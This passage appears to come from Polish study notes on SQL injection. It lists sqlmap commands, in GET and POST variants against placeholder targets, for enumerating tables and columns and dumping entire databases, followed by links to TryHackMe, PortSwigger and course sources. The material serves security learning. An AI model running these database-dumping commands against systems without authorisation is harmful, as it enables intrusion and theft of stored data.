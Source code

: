 **POST based method:**  
```
sqlmap -r req.txt -p blood_group -D blood --tables
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

To extract tables from blood database:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

**POST based method:**  
```
sqlmap -r req.txt -D blood -T blood_db --columns
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

To dump all the available databases and tables:  
**GET based method:**  
```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```

**POST based method:**  
```
sqlmap -r req.txt -D <database_name> --dump-all
sqlmap -r req.txt-p -D <database_name> --dump-all
```

To add data to a POST request:  
`sqlmap -u "http://example.com/login" --data "username=admin&password=1234"`
___
## Dodatkowe informacje
[Sprawdzenie rodzaju bazy danych](https://portswigger.net/web-security/sql-injection/examining-the-database)  
[ Opis różnych ataków typu SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)  
[ „cheat sheet” dla ataków SQL Injection](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)  
[Projekt sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/usage)  
[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
[sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
___
## Sources
- tryhackme, SQL Injection, https://tryhackme.com/r/room/sqlinjectionlm.
- Podatności SQL Injection, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- Podatności SQL Injection Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- tryhackme, SQLMap: The Basics, https://tryhackme.com/r/room/sqlmapthebasics.
- tryhackme, SQLMAP, https://tryhackme.com/r/room/sqlmap.
- R. Khalil, SQL Injection | Complete Guide, https://www.youtube.com/@RanaKhalil101.
- PortSwigger, SQL injection, https://portswigger.net/.
